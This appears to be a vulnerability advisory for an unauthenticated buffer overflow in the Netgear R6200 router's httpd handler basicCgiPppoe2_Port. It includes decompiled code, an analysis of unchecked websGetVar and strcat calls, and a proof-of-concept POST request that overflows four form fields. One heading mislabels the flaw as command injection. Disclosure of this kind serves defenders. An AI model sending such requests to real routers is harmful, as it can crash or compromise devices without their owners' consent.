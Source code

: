 # Buffer Overflow Vulnerability in `basicCgiPppoe2_Port`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6200 Router                                         |
| Firmware Version     | V1.0.1.58_1.0.44                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`basicCgiPppoe2_Port`) (multiple vulnerable buffers: `v7`, `v8`, `v9`, `v10`, `v11`) |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameters `Port_1`, `Port_2`, `Protocol`, `policyIndex` |

2. Exploitation Path

```c
int __fastcall basicCgiPppoe2_Port(char *a1, int a2)
{
  char *v4; // $v0
  int v5; // $v0
  char v7[8]; // [sp+18h] [-120h] BYREF
  char v8[8]; // [sp+20h] [-118h] BYREF
  char v9[8]; // [sp+28h] [-110h] BYREF
  char v10[8]; // [sp+30h] [-108h] BYREF
  char v11[256]; // [sp+38h] [-100h] BYREF

  memset(v11, 0, sizeof(v11));
  v7[0] = 0;
  v8[0] = 0;
  v9[0] = 0;
  v7[1] = 0;
  v7[2] = 0;
  v7[3] = 0;
  v7[4] = 0;
  v7[5] = 0;
  v7[6] = 0;
  v7[7] = 0;
  v8[1] = 0;
  v8[2] = 0;
  v8[3] = 0;
  v8[4] = 0;
  v8[5] = 0;
  v8[6] = 0;
  v8[7] = 0;
  v9[1] = 0;
  v9[2] = 0;
  v9[3] = 0;
  v9[4] = 0;
  v9[5] = 0;
  v9[6] = 0;
  v9[7] = 0;
  websGetVar(a1, "Port_1", v7);
  strcpy(v11, v7);
  v4 = &v11[strlen(v11)];
  v4[1] = 0;
  *v4 = 45;
  websGetVar(a1, "Port_2", v8);
  strcat(v11, v8);
  websGetVar(a1, "Protocol", v9);
  strcat(v11, ",");
  strcat(v11, v9);
  websGetVar(a1, "policyIndex", v10);
  if ( v10[0] )
  {
    v5 = atoi(v10);
    sub_42AB90(v11, v5);
  }
  else
  {
    sub_42AB90(v11, 0);
  }
  sendPage2Client("BAS_basic.htm", a2);
  return 0;
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: Multiple buffer overflow vulnerabilities are present in the `basicCgiPppoe2_Port` function:
   - At line 36, `websGetVar(a1, "Port_1", v7)` receives input into the destination buffer `v7`, which has a size of 8 bytes. Although `websGetVar` enforces a 255-byte length limit, no additional validation is applied, resulting in a buffer overflow.
   - At line 41, `websGetVar(a1, "Port_2", v8)` receives input into the destination buffer `v8` (8 bytes), with the same lack of bounds checking, leading to a buffer overflow.
   - At line 43, `websGetVar(a1, "Protocol", v9)` receives input into the destination buffer `v9` (8 bytes). Despite the 255-byte limit enforced by `websGetVar`, no further validation exists, causing a buffer overflow.
   - At line 46, `websGetVar(a1, "policyIndex", v10)` receives input into the destination buffer `v10` (8 bytes), also resulting in a buffer overflow due to insufficient validation.
   - At line 45, `strcat(v11, v9)` operates on the destination buffer `v11` (256 bytes). Following the concatenations at line 42 `strcat(v11, v8)` and line 44 `strcat(v11, ",")`, this sequence may trigger a buffer overflow because the total length may exceed the allocated size.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/basicCgiPppoe2_Port HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 1024
Connection: close

Port_1=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
&Port_2=BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
&Protocol=CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
&policyIndex=DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
```